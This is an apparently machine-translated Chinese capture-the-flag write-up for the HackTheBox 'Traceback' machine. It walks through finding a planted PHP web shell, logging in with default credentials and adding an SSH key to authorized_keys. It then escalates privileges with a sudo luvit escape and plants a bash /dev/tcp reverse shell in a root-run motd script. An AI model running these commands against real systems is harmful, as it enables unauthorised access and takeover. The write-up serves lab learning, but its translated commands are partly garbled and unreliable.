 # 黑客盒子回溯记录

> 原文：<https://infosecwriteups.com/hackthebox-traceback-write-up-9970293acc25?source=collection_archive---------4----------------------->

![](img/5917adfb09e8a701e2b03c36eea17e8d.png)

我们会利用 HTB 的回溯技术。盒子太简单了，太直截了当了。如果你是初学者，我会推荐你用这个盒子。让我们开始开发它的旅程。

# 列举

从[nma 自动扫描](https://github.com/21y4d/nmapAutomator)开始

> cmd =。/nma 自动马达 10.10.10.181 全部

> traceback.htb 的 Nmap 扫描报告(10.10.10.181)
> 主机已启动(0.16 秒延迟)。
> 
> 端口状态服务版本
> 22/tcp 开放 ssh OpenSSH 7.6p 1 Ubuntu 4 Ubuntu 0.3(Ubuntu Linux；协议 2.0)
> | ssh-hostkey:
> | 2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:E5:6d:8a:28(RSA)
> | 256 54:BD:46:71:14:BD:B2:42:a1:B6:B0:2d:94:14:3b:0d(ECD sa)
> |CPE: cpe:/o:linux:linux_kernel

在继续之前，让我们分析一下端口扫描。机器上运行着两个端口，分别是 22 和 80。我们需要一些凭证来登录运行 ssh 服务的端口 22 和运行 http 服务的端口 80。现在让我们开始枚举端口 80。

![](img/24bdd77769b3af95af608fdc1e7e41f9.png)

这将是机器的主页。通过阅读网站上的文字，我们可以知道网站上还有任何后门。也看看源代码吧。

![](img/4a288862f83b1eeabd3245db16e8c30d.png)

现在，很明显，后门是关于机器上的 web 外壳的。让我们来寻找“最佳网络外壳”。

经过一番侦查，我们得到了一个 GitHub 回购，它拥有最好的 web shells，即“[https://github.com/TheBinitGhimire/Web-Shells](https://github.com/TheBinitGhimire/Web-Shells)”。下载回购文件，列出所有网络外壳名称，运行 dirb 扫描仪检查后门文件的位置。

> cmd = dirb[http://traceback . htb](http://traceback.htb)~/HTB/traceback/we B- shell/shell . txt

几分钟后，我们观察到有一个后门“smevk.php”在网站上运行。

![](img/7a4959b5d635efae4ff3c1087892fcd3.png)

如前所述，框是直截了当的，我们可以很容易地在 smevk.php 的默认凭证登录

> 用户名:- admin
> 
> 密码:- admin

![](img/3ba0db2041b0641db84ce7905e587bd1.png)

登录后，我们会被引导到这里

![](img/f7841073b0f582546d68e38beb3611a6.png)

我们可以看到，我们有多种功能，例如

> 1.上传文件。
> 
> 2.建立档案。
> 
> 3.阅读文件。
> 
> 4.执行任何命令。
> 
> 5.制作一个目录。

现在让我们从上传 netcat 的 execute any command 功能开始，这样我们可以得到一个反向 shell。

# 剥削

正如我们可以看到的，我们有一个执行命令的选项，那么让我们通过将我们的 ssh 公钥添加到当前用户~/来尝试使用正确的 ssh 会话而不是 web shell。ssh/授权密钥。

如果你不熟悉如何做到这一点，然后访问[这里](https://docs.oracle.com/cd/E19683-01/806-4078/6jd6cjru7/index.html)。

现在，在生成公共 ssh 密钥之后，复制“id_rsa.pub”并在 web 页面上执行以下命令。

> cmd = echo " your _ id _ RSA . pub " > >/home/web admin/。ssh/authorized _ key。

执行该命令后，我们可以使用 ssh 连接进行连接。

![](img/9c020ae80780a8847d27a16ed299dc55.png)

现在，让我们寻找对 root 用户的权限提升。

# 后期开发

当我们在 webadmin 中查看时，我们得到一个 note.txt 文件，并检查 sudo 权限。

![](img/95cdf35c47c2883f4156b5f33c6676c4.png)![](img/3fc796d99cf4faa0b72a867585038401.png)

正如我们看到的，我们可以通过 luvit 访问链接“【https://gtfobins.github.io/gtfobins/lua/】T2”来枚举 sysadmin。正如我们看到的，我们可以通过 sudo 权限来枚举

![](img/e5130acf43e01312de535a2b44733ee9.png)

执行下面的命令，我们可以枚举为 sysadmin。

> cmd = sudo-u sysadmin/home/sysadmin/luvit-e ' OS . execute("/bin/bash ")'

![](img/a48308acb956ff543b627b2359502baf.png)![](img/99a4728a43b41809bb7b87d9fed08751.png)

现在，让我们看看如何枚举 root 并获取 root.txt。因此，我们将在计算机上运行 LinPriv.sh 文件并查看结果。

![](img/7d62813e402b23856d783759855d3bbd.png)

在浏览结果时，我们观察到当从 ssh 登录时，有一个脚本“00-header”作为 root 运行。

答对了，现在我们有两个选择

1.  我们可以把一个反壳作为根。
2.  我们可以得到 root.txt。

让我们以反壳为根。

我在脚本的顶部添加了 nc reverse shell，这样 rev shell 代码可以首先执行。

> cmd = echo -e '#！/bin/bash \ nbash-I > &/dev/TCP/IP/5555 0 > & 1 ' > 00-header

现在执行命令，然后在另一个选项卡中用 ssh 再次连接，我们在那里得到一个反向连接。

![](img/fbda7316038035cc28da048fa0868997.png)

答对了，我们已经成功地把箱子扎根了。

> 感谢阅读。

![](img/69bbd45abad0b6e8c0a585210797722f.png)

[点击这里](http://buymeacoff.ee/Viston)

![](img/bb16dd41285ad610df2224c08caa4834.png)

[点击这里](https://www.hackthebox.eu/profile/196419)

[](https://book.hacktricks.xyz/linux-unix/privilege-escalation) [## Linux 权限提升

### 定时器是 systemd 单元文件，其名称以。控制的计时器。服务文件或事件。可以用作…

book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation)  [## lua | GTFOBins

### 它可以通过生成交互式系统外壳来突破受限环境。它可以发回一个…

gtfobins.github.io](https://gtfobins.github.io/gtfobins/lua/) [](https://github.com/rebootuser/LinEnum) [## rebootuser/LinEnum

### 欲了解更多信息，请访问 www.rebootuser.com 注意:出口功能目前处于试验阶段…

github.com](https://github.com/rebootuser/LinEnum) [](https://docs.joyent.com/public-cloud/getting-started/ssh-keys/generating-an-ssh-key-manually/manually-generating-your-ssh-key-in-windows) [## 在 Windows 中手动生成 SSH 密钥

### 在 Windows 上，可以用多种方式创建 SSH 密钥。这个文档解释了如何使用两个 SSH 应用程序，PuTTY 和 Git…

docs.joyent.com](https://docs.joyent.com/public-cloud/getting-started/ssh-keys/generating-an-ssh-key-manually/manually-generating-your-ssh-key-in-windows) [](https://www.ssh.com/ssh/keygen/) [## 如何使用 ssh-keygen 生成新的 ssh 密钥

### 这个页面是关于 ssh-keygen 的版本。请参见。如果您希望为生成密钥，请参见 Windows 上的 PuTTYgen 或…

www.ssh.com](https://www.ssh.com/ssh/keygen/)